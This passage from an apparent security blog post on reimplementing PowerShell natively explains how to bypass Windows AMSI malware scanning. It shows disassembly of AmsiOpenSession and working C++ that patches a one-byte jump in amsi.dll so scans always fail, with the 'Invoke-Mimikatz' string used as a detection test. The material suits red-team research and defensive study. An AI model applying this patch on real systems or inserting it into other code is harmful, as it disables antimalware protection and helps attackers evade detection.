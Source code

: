 The very first security feature I wanted to tackle was the [Antimalware Scan Interface](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal). I'm sure you're already very familiar with this protection. It is integrated into both PowerShell and .NET, and merely consists in scanning user code to identify potentially malicious strings or sequences of bytes, given a set of detection rules.

Before implementing any bypass, we should establish a marker to check whether the protection is active or not. In the case of the AMSI, we know that the string `Invoke-Mimikatz` is detected by default, but an Endpoint Detection and Response (EDR) agent could come with additional detection rules.

![Detection of the string "Invoke-Mimikatz" by the AMSI](/assets/posts/2025-02-18-reinventing-powershell/security-feature-amsi.png)
*Detection of the string "Invoke-Mimikatz" by the AMSI*

The bypass technique I chose here is completely arbitrary. It's the one implemented in the script [Nuke-AMSI.ps1](https://github.com/anonymous300502/Nuke-AMSI). It consists in a one-byte patch of the function `AmsiOpenSession` in `amsi.dll`.

```nasm
test   rdx,rdx
je     0x11                       ; ----+  patch with a jmp
test   rcx,rcx                    ;     |
je     0x11                       ;     |
cmp    QWORD PTR [rcx+0x8],0x0    ;     |
jne    0x18                       ;     |
mov    eax,0x80070057             ; <---+
ret
```

It replaces the conditional jump `JE` (or `JZ`) on the second line with a basic `JMP` to redirect the execution flow to `MOV EAX,0x80070057; RET`, which results in the function systematically returning the error code `0x80070057` (i.e. "invalid parameters").

The patch is trivial to implement in our native application because the target code is unmanaged, so we just have to get the base address of the module `amsi.dll`, obtain the address of the function `AmsiOpenSession`, and replace the byte `0x74` (`JE` or `JZ`) at offset 3 (to skip the first `TEST` instruction) with the value `0xeb` (`JMP`).

```cpp
BOOL PatchAmsiOpenSession() {
    BYTE bPatch[] = { 0xeb };
    HMODULE hModule = GetModuleHandleW(pwszModuleName);
    FARPROC pProcedure = GetProcAddress(hModule, pszProcedureName);
    VirtualProtectEx(GetCurrentProcess(), pProcedure, 1, PAGE_EXECUTE_READWRITE, &dwOldProtect);
    memcpy_s(pProcedure, 1, bPatch, 1);
    VirtualProtectEx(GetCurrentProcess(), pProcedure, 1, dwOldProtect, &dwOldProtect);
}
```
